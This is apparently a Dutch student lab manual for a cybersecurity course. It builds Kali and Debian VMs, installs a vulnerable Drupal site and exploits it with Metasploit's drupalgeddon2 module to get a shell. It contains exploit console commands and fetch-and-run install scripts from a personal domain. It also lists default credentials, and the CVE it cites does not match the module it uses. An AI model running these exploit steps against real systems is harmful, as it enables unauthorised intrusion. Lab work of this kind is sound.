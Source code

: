 # CSV-NPE-2223

Cybersecurity &amp; Virtualisation - NPE Opdracht 2022-2023

# Deployment manual

## Table of Contents

- [1. VM installaties](#1-vm-installaties)
- [2. Drupal installatie](#2-drupal-installatie)
- [3. Metesploit](#3-metesploit)
- [4. Demo](#4-demo)

## 1. VM installaties

### Informatie

- De VM's zijn geconfigureerd met een host-only netwerk adapter
- De installatie vereist een internet connectie

### Setup op host machine

- Download volgende vdi-bestanden van osboxes.org:

  - [Kali Linux 2022.3](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
  - [Debian 11 - Desktop](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/64bit.7z/download)

- Unzip de vdi-bestanden rechtstreeks in de download folder de huidige gebruiker
- Check of de vdi-bestanden de volgende namen hebben:

  - Kali Linux 2022.3 (64bit).vdi
  - Debian 11 (64bit).vdi

- Voer de volgende commando's uit in powershell op de host machine:

  ```powershell
    curl https://jobbe.be/csv-npe-2223/vm-install.sh -out vm-install.ps1
    ./vm-install.ps1
  ```

## 2. Drupal installatie

### Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

### Informatie

- De exploit is beschikbaar op [exploit-db](https://www.exploit-db.com/exploits/46510)
- De exploit veroorzaakt een unserialize() fout in de `Drupal 7/8 RESTful Web Services` module, waardoor we een remote command execution kunnen uitvoeren
- Deze manual gebruikt de `drupal_drupalgeddon2` [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) van metasploit om de exploit uit te voeren.

### Setup op Debian VM

- Log in op de Debian VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Installeer de mysql repository en selecteer in de prompt `debian buster` en en `mysql-5.7` als versie van mysql:

  ```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb
  ```

- Download en run het installatie script:

  ```bash
    wget https://jobbe.be/csv-npe-2223/drupal-install.sh
    chmod +x drupal-install.sh
    sudo ./drupal-install.sh
  ```

- Na de installatie is drupal beschikbaar op `http://localhost/index.php`
- Configureer Drupal met de volgende gegevens:

  - Database name: `drupal`
  - Database username: `drupal`
  - Database password: `password`
  - Site name: `drupal`
  - Site email address: `drupal@localhost.be`
  - Username: `drupal`
  - Password: `drupal`
  - Default country: `Belgium`
  - Default timezone: `Europe/Brussels`

- Verwijder de standaard web pagina in /var/www/html:

  ```bash
    sudo rm -rf /var/www/CybersecurityNPE2023.local/index.html
  ```

- Activeer de volgende modules onderaan in de `Modules` pagina van Drupal:

  - `Entity API`
  - `RESTful Web Services`

- Check het ip-adres van de Debian VM met het volgende commando:

  ```bash
    ip a
  ```

## 3. Metesploit

### Exploit op Kali VM

- Log in op de Kali VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Open een terminal en voer volgende commando's uit:

  ```bash
    sudo msfdb init
    sudo msfconsole
  ```

- Voer volgende commando's uit in de metasploit console om de host te in te stellen (vervang xxx.xxx.xxx.xxx met het ip-adres van de Debian VM):

  ```bash
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOSTS xxx.xxx.xxx.xxx
    set VERBOSE true
    check
  ```

- Voer volgende commando's uit in de metasploit console om de exploit uit te voeren:

  ```bash
    run
  ```

- Als de exploit succesvol is uitgevoerd, kan je een shell openen met volgende commando's:

  ```bash
    whoami
    ls
  ```

### 4. Demo

https://hogent.cloud.panopto.eu/Panopto/Pages/Viewer.aspx?id=294bbaaf-9e7a-4abc-87e6-b0030132dae7
